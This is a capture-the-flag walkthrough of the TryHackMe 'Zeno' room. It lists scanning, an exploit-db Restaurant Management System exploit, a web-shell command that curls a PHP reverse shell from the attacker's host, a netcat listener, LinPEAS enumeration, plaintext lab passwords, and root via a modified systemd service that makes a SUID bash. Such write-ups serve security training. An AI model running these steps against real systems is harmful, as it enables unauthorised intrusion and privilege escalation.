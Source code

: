 # Zeno

**oom Link:** [https://tryhackme.com/room/zeno](https://tryhackme.com/room/zeno)



## **Scans**

Initial scan

**Kali**

```
nmap -A $VICTIM
```

<figure><img src="../../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Longer scan

**Kali**

```
nmap -sV -sT -O -p 1-65535 $VICTIM
```

<figure><img src="../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

## TCP/12340- HTTP

**Kali**

```
gobuster dir -u http://$VICTIM:12340 -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -x php,html,txt
```

<figure><img src="../../.gitbook/assets/image (5) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

## Restaurant Management System Exploit

**Exploit:** [https://www.exploit-db.com/raw/47520](https://www.exploit-db.com/raw/47520)

The code needed some fixing up

**From**

<figure><img src="../../.gitbook/assets/image (4) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

**To**

<figure><img src="../../.gitbook/assets/image (3) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

**Kali**

```
python exploit.py http://$VICTIM:12340/rms/
```

<figure><img src="../../.gitbook/assets/image (6) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (7) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

**Kali**

```
git clone https://github.com/pentestmonkey/php-reverse-shell.git
cp php-reverse-shell/php-reverse-shell.php .
subl php-reverse-shell.php 
```



**Kali**

```
python2 -m SimpleHTTPServer 81
```

**Browser**

```
http://$VICTIM:12340/rms/images/reverse-shell.php?cmd=curl%20-O%20http://10.10.57.58:81/php-reverse-shell.php
```



**Kali**

```
nc -lvnp 1337
```

**Browser**

<figure><img src="../../.gitbook/assets/image (8) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (9) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Get autocomplete

```
python3 -c 'import pty; pty.spawn("/bin/bash")'
ctrl + Z
stty raw -echo;fg
```



### LinPeas

**Kali**

```
wget https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh | sh
python2 -m SimpleHTTPServer 81
```

**Victim**

```
cd /tmp/
curl -O http://$KALI:81/linpeas.sh
chmod +x linpeas.sh 
./linpeas.sh
```

<figure><img src="../../.gitbook/assets/image (10) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>



## MySQL

**Victim**

```
mysql -u root -pveerUffIrangUfcubyig
```

**Victim(mysql)**

```
show databases;
use dbrms;
show tables;
select * from members;
```

<figure><img src="../../.gitbook/assets/image (11) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>



<figure><img src="../../.gitbook/assets/image (12) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Edwards password was still not found

<figure><img src="../../.gitbook/assets/image (13) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

I went back to linpeas and found another password, it's for a different user but it still worked.

<figure><img src="../../.gitbook/assets/image (14) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>



## TCP/22- SSH

**Kali**

```
ssh edward@$VICTIM
Password: FrobjoodAdkoonceanJa
```



**Victim(edward)**

```
sudo -l
```

<figure><img src="../../.gitbook/assets/image (15) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>



**Victim(apache)**

```
find /etc -type f -perm /g=w -exec ls -l {} + 2> /dev/null 
```

<figure><img src="../../.gitbook/assets/image (807).png" alt=""><figcaption></figcaption></figure>

**Victim(apache)**

```
vi /etc/systemd/system/zeno-monitoring.service
```

**From**

<figure><img src="../../.gitbook/assets/image (808).png" alt=""><figcaption></figcaption></figure>

**To**

```
[Unit]
Description=Zeno monitoring

[Service]
Type=simple
User=root
ExecStart=/bin/bash -c 'cp /bin/bash /home/edward/bash_root; chmod +xs /home/edward/bash_root'

[Install]
WantedBy=multi-user.target
```

<figure><img src="../../.gitbook/assets/image (810).png" alt=""><figcaption></figcaption></figure>

**Victim(edward)**

```
sudo /usr/sbin/reboot
```

**Kali**

```
ssh edward@$VICTIM
Password: FrobjoodAdkoonceanJa
```

**Victim(edward)**

```
ls -lah
./bash_root -p
```

<figure><img src="../../.gitbook/assets/image (811).png" alt=""><figcaption></figcaption></figure>



